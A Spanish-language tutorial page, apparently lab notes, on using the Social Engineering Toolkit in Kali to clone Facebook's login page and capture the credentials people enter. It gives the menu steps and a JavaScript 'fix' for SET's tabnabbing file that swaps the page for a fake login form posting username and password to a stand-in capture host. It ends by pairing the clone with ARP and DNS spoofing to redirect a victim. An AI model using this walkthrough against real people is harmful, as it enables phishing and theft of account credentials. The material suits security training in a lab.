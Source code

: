 # Social Engineering ToolKit (SET)

Esta herramienta una de sus principales funciones es la de emular una pagina web que quieras totalmente exacta a la que elijas, reconstruyendo su codigo fuente para que sea una copia y con ello que se pueda hacer una especie de `phishing`.

Para mas informacion nos podremos ir al `github` de la herramienta en el siguiente link:

URL = [Social Engineering Toolkit GitHub](https://github.com/trustedsec/social-engineer-toolkit)

Esta herramienta ya viene instala por defecto en `kali`.

En tal caso de que no viene el repositorio, solo tendreis que instalar lo siguiente y ya la tendriais:

```shell
sudo apt install set
```

La iniciaremos con el siguiente comando:

```shell
setoolkit
```

Y nos aparecera como un `disclaimer` para aceptar que vamos a utilizar la herramienta con buenas acciones y no con malas, por lo que le daremos a la `y`, y esto nos metera en la herramienta:

<figure><img src="../../.gitbook/assets/image (127) (1).png" alt=""><figcaption></figcaption></figure>

Esto lo que hace automaticamente es replicar una pagina web que elijamos y capturar las credenciales que se introduzcan por parte del usuario para que nos llegue a nosotros.

Le daremos al numero `1` y despues al numero `2`, tendremos que ver esto en nuestro `prompt` de terminal:

```
set:webattack>
```

Seguidamente le daremos al numero `5` y despues al numero `3`.

Nos dira que si la IP que vemos reflejada en el `prompt` es la correcta, ya que la detecta automaticamente, de ser asi le dariamos a `ENTER` de lo contrario metemos nosotros la IP y `ENTER`.

Ahora nos pedira la pagina la cual queremos replicar, por lo que buscaremos `facebook.es`, dentro del login de `facebook` le daremos click derecho en la pagina -> `Save Page As ...` -> cambiar la parte de `Web Page, Complete` por `Web Page, HTML Only` -> lo renombramos como index.html -> `Save`

Metemos la ruta donde este ese `index.html`, despues nos aparecera que importemos la `URL` pondremos `facebook.es` para que nos aparezca este dominio y le daremos a `ENTER`, si tenemos `apache2` corriendo nos dira que si lo queremos desactivar para que lo active el, le daremos a `y`, en tal caso de que no estuviera activado, ya estaria lista la herramienta.

Por lo que si visitamos `http://localhost/` nos dira un link de que se movio la pagina a otro sitio y esto nos redirigira a la pagina `phishing` de `facebook.es` exactamente igual a la original:

> NOTA POSIBLE ERROR:

Si por ejemplo diera un error en la parte de cuando dejas en blanco lo de la `URL` tendriamos que hacer lo siguiente:

```shell
sudo nano /usr/local/share/setoolkit/src/webattack/tabnabbing/source.js

#Dentro del nano

// source.js: Simulación básica de Tabnabbing
window.onload = function () {
    // Tiempo de espera para simular cambio de pestaña (en milisegundos)
    setTimeout(function () {
        // Cambia el contenido de la página después de 3 segundos
        document.body.innerHTML = `
            <h1>Inicia sesión para continuar</h1>
            <form action="http://example.com/capture" method="POST">
                <label for="username">Usuario:</label>
                <input type="text" id="username" name="username"><br><br>
                <label for="password">Contraseña:</label>
                <input type="password" id="password" name="password"><br><br>
                <button type="submit">Iniciar sesión</button>
            </form>
        `;
        document.title = "Inicio de sesión - Seguridad";
    }, 3000);
};
```

Guardamos esto y volvemos a ejecutar la herramienta, con esto deberia de funcionar ya.

<figure><img src="../../.gitbook/assets/image (128) (1).png" alt=""><figcaption></figcaption></figure>

Una vez que tengamos corriendo esta pagina y estando en mitad de la comunicacion con el `ARP Spoofing` y el `DNS Spoofing` que le redirija a esta pagina cuando meta `facebook.es`, ya podremos probar a como si fueramos el usuario desde la maquina `windows` a meter `facebook.es` en el navegador y metes unas credenciales, por lo que si visitamos dicho dominio, veremos que funciona ya que nos aparece nuestra pagina falsa.

Cuando metemos nuestras credenciales como usuario normal, podremos ver que en la maquina atacante las recivimos:

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>
